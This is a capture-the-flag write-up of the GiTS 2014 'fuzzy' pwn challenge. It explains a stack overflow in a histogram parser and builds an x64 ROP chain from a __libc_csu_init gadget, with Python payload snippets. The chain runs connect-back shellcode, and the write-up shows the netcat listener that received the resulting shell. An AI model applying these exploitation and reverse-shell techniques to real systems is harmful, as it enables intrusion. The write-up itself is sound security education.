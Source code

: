 ```yaml
---
title: 'GiTS 2014: fuzzy'
authors:
  - Alex Reece <awreece>
layout: post
categories:
  - Pwn
ctf: Ghost in the Shellcode
year: 2014
---
```

tl;dr &mdash; `fuzzy` is a "super secure parsing engine", that includes a histogram function. The histogram ascii text uses a buffer on the stack, but will increment
buckets past the end of the buffer if non ascii text is provided, allowing us to
rop.

<!--more-->

Binary and exploit available [here][1].

## The program

`fuzzy` is a "super secure parsing engine", that includes a histogram function:

```
$ nc fuzzy.2014.ghostintheshellcode.com 4141
Welcome to the super secure parsing engine!
Please select a parser!

1) Sentence histogram
2) Sorted characters (ascending)
3) Sorted characters (decending)
4) Sorted ints (ascending)
5) Sorted ints (decending
6) global_find numbers in string
1
Enter a series of characters
hello
 :0 !:0 ":0 #:0 $:0
%:0 &:0 &#39;:0 (:0 ):0
... &lt;snip&gt; ...
a:0 b:0 c:0 d:0 e:1
f:0 g:0 h:1 i:0 j:0
k:0 l:2 m:0 n:0 o:1
p:0 q:0 r:0 s:0 t:0
u:0 v:0 w:0 x:0 y:0
z:0 {:0 |:0 }:0
```

As you can see, it computes a histogram of the input. This histogram
is constructed using a buffer that is on the stack, so if we send it
non-ascii text we can write to the stack. By modifying the saved `ebp`,
we can point the stack to a buffer we control.

Unfortunately, this is a bit challenging to figure out because all
the interesting functions are encrypted. Fortunately for us, the "encryption"
is just bitwise not. Using our favorite hex editor, we make a new binary with
the decrypted functions to reverse.

With control of the stack, we get control over rip and can ROP.
We will use the `callFunction` function, which decrypts a function
into an executable page and then runs it. Our goal will be to `read` encrypted shellcode
into a known location (there is a convenient buffer `dontcollide` in the data
section that is never used), then invoke `callFunction` to run our shellcode.
Unfortunately, since this is x64, we need to find a good gadget to be able to
control registers and call functions. Luckily, there is a good gadget in
`__libc_csu_init`:

```
loc_401790:                             ; CODE XREF: __libc_csu_init+64j
                mov     rdx, r13
                mov     rsi, r14
                mov     edi, r15d
                call    qword ptr [r12+rbx*8]
                add     rbx, 1
                cmp     rbx, rbp
                jnz     short loc_401790

loc_4017A6:                             ; CODE XREF: __libc_csu_init+4Aj
                mov     rbx, [rsp+8]
                mov     rbp, [rsp+10h]
                mov     r12, [rsp+18h]
                mov     r13, [rsp+20h]
                mov     r14, [rsp+28h]
                mov     r15, [rsp+30h]
                add     rsp, 38h
                retn
```

This gadget allows us to control the first three registers we need an call
anything we have function pointer to. The program uses a large function pointer table to enable
the encrypted functions to call library functions, so we have pointers to many
library functions. Unfortunately, we do *not* have a pointer to `readAll`, so we
cannot use it with our gadget. Furthermore, our gadget only controls 3 arguments,
so we cannot easily use `recv`. Lastly, we cannot use the encrypted `my_readAll`
function (that we have a pointer to) because it reads its arguments out of a
buffer and we don't have an easy way to call functions with a buffer we control
as an argument. Still, this gadget allows us to chain calls arbitrary function pointers
with 3 arguments:

```
# Assumes rip points to loc_4017A6.
def call(function_ptr, arg0, arg1, arg2):
  # Make sure rbx is 0 to make math easy, and rbp is 1 so we fall through to
  # loc_4017A6 for repeated calls.
  #      padding            rbx       rbp       r12                  r13=rdx      r14=rsi      r15=edi
  return pack(0xdeadbeef) + pack(0) + pack(1) + pack(function_ptr) + pack(arg2) + pack(arg1) + pack(arg0) + pack(__libc_csu_init_gadget)
```

Instead, we make a function pointer to `readAll` in the data section that we can use our
gadget.
We call `memset` 4 times, once for each distinct byte in
the the address of `readAll`, and make `dontcollide` a pointer to `readAll`.

```
# Set dontcollide to be a function pointer to readAll (0x4013cb).
payload += call(memset_fptr, dontcollide, 0, 8)
payload += call(memset_fptr, dontcollide, 0xcb, 1)
payload += call(memset_fptr, dontcollide + 1, 0x13, 1)
payload += call(memset_fptr, dontcollide + 2, 0x40, 1)
```

We then can use our gadget to call `readAll`,
reading the encrypted shellcode into `dontcollide`, and then again to call
`callFunction`, executing our shellcode.

```
# Read the shellcode into a buffer. The socket to read from is 4.
payload += call(dontcollide, 4, dontcollide, 0x400)

# Call our shellcode.
payload += call(callEncryptedFunction_fptr, dontcollide, 0, 0)
```

We grab some connect back shellcode
and get a shell:

```
~% python fuzzy.py                                           [console 1]
~% nc -l 16705                                               [console 2]
cat key.txt
key is: fuzzingIsFun2
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2014/01/fuzzy.tar.gz